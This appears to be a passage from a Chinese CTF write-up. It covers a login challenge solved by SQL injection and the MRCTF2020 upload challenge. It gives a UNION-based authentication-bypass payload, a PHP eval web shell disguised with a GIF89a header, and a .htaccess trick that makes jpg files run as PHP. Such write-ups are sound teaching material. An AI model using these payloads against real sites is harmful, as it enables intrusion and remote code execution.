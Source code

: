 ![在这里插入图片描述](img/48403d52bf273a09a4b341aa350c278c.png)
看来是有admin这个用户的，错误显示不是很好，暴漏了用户信息

但是发现只要输错了就是`wrong user`或者`not hack me`

查看源码，没什么可疑的地方

只好从别的地方下手，参数是传到`search.php`这个页面的，看看这个页面，发现F12之后有一段
![在这里插入图片描述](img/a6107cc26d2a4dbe0d67bc022ae79113.png)传参数不会影响，一开始看着像`base64`,但是解码之后出现乱码，
然后就想起`base64`和`base32`的区别，前者有`大小写字母`加数字`0-9`以及符号`+-/；`，而后者只有大写字母以及数字`2-7`，进行`base32`解码得

![在这里插入图片描述](img/62284f8087c6e536c450469bb2fbeaf8.png)

这回更像`base64`，解码

`select * from user where username = '$name'`
emm，这是告诉我们语句的格式吗，
![在这里插入图片描述](img/73a743ba3106be1b2a63b202fb573034.png)
显示位是三个

大佬们都是直接猜测字段为`id,username,password`

mysql在进行数据查询的时候会先在数据库中产生一条虚拟的数据,刷新之后会消失

如果是构造`username=0'union seect 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1`
就可以绕过,`post`传参是把两参数分别放到各自的`SQL`语句里的，所以说后面的注释符不会把密码注释掉，写题写傻了哈哈哈哈

# [MRCTF2020]你传你🐎呢

这道题相比之前的比较简单

上传1.jpg

```
GIF89a
<?php @eval($_post['x']);?> 
```

上传改`content-type`

然后再上传`.htaccess`解析`jpg`文件为`php`文件
